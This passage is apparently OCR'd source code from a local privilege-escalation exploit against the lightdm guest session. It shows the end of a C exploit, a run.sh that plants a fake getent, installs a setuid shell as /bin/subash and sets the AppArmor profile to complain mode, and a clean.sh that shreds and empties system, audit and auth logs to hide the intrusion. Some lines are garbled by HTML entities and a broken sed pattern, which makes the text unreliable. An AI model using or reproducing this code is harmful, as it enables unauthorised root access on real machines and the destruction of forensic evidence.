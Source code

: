 ```
                  printf("n[!] a: %i b: %i c: %in[!] exploit failed !!!n[!] w8 1 minute and run it againn", a, b, c);
                }
                system("/bin/rm -rf /tmp/old.*");
                inotify_rm_watch(fd, wd);
                close(fd);
                exit(0);
              }
            }
          }
        }
      }
    }
  }
}
```

clean.sh



```
#!/bin/bash
if [ "$(/usr/bin/id -u)" != "0" ]; then
   echo "This script must be run as root" 1&gt;&amp;2
   exit 1
fi
/bin/rm -rf /tmp/guest-* /tmp/old.guest-*
/usr/bin/shred -fu /var/tmp/run.sh /var/tmp/shell /var/tmp/boc /var/log/kern.log /var/log/audit/audit.log /var/log/lightdm/*
/bin/echo &gt; /var/log/auth.log
/bin/echo &gt; /var/log/syslog
/bin/dmesg -c &gt;/dev/null 2&gt;&amp;1
/bin/echo "Do you want to remove exploit (y/n)?"
read answer
if [ "$answer" == "y" ]; then
/usr/bin/shred -fu /var/tmp/kodek/* /var/tmp/kodek/bin/*
/bin/rm -rf /var/tmp/kodek
else
exit
fi
run.sh
#!/bin/sh
/bin/cat &lt;&lt; EOF &gt; /usr/local/sbin/getent
#!/bin/bash
/bin/cp /var/tmp/shell /bin/subash &gt;/dev/null 2&gt;&amp;1
/bin/chmod 4111 /bin/subash &gt;/dev/null 2&gt;&amp;1
COUNTER=0
while [ $COUNTER -lt 10 ]; do
/bin/umount -lf /usr/local/sbin/ &gt;/dev/null 2&gt;&amp;1
let COUNTER=COUNTER+1
done
/bin/sed -i 's//usr/lib/lightdm/lightdm-guest-session {//usr/lib/lightdm/lightdm-guest-session flags=(complain) {/g' /etc/apparmor.d/lightdm-guest-session &gt;/dev/null 2&gt;&amp;1
/sbin/apparmor_parser -r /etc/apparmor.d/lightdm-guest-session &gt;/dev/null 2&gt;&amp;1
/usr/bin/getent passwd "$2"
EOF
/bin/chmod 755 /usr/local/sbin/getent &gt;/dev/null 2&gt;&amp;1
```
